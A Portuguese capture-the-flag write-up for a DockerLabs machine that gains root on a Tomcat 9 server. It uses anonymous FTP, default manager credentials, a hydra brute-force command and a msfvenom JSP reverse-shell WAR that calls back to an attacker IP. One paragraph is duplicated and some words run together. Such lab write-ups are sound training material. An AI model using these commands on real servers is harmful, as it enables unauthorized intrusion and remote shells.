

maq.pn
MÁQUINA PN

Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sV -sC -Pn -T5 -p-
Primeiro entramos no serviço FTP, pois você pode usar o acesso Anonymous. E podemos ver que temos um arquivo chamado tomcat.txt e copiar o arquivo em nossa máquina usando get.
Tradução da mensagem para português:
Olá tomcat, você consegue configurar o servidor tomcat? Perdi a senha...
Entramos no endereço da web com a porta 8080 e podemos ver a página inicial do apache Tomcat, que aparentemente é a versão 9.0.88.
Vamos clicar em Manager app.
Para poder acessar em Tomcat, devemos clicar managerwebappE nós vamos ter o próximo popup pedindo-nos para inserir as credenciais na próxima página, encontre uma lista de credenciais padrão https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat que tentamos cada um deles e aquele que nos permite entrar é s3cr3t:
Outra opção também é cancelar e nos mostrar as credenciais, embora nem sempre funcione como neste caso, nos mostra s3cretE essa não é a senha.
Para poder acessar em Tomcat, devemos clicar managerwebappE nós vamos ter o próximo popuppedindo-nos para inserir as credenciais na próxima página, encontre uma lista de credenciais padrão https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat que tentamos cada um deles e aquele que nos permite entrar é s3cr3t:
Vamos fazer um brute force com hydra.
hydra -L users.txt -P senhas.txt -f 172.17.0.2 -s 8080 http-get /manager/html
Vamos fazer o login:
Uma vez dentro, podemos ver que temos a opção de carregar arquivos de war e, através disso, podemos nos conectar. O comando seria:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.5 LPORT=1234 -f war > shell.war
Vamos fazer o upload do arquivo, o nome que coloquei foi shell10.war.
Agora vamos deixar o netcat na escuta.

Assim que clicar em cima do arquivo shell10.war, vamos ser usuário root.
somos root
R10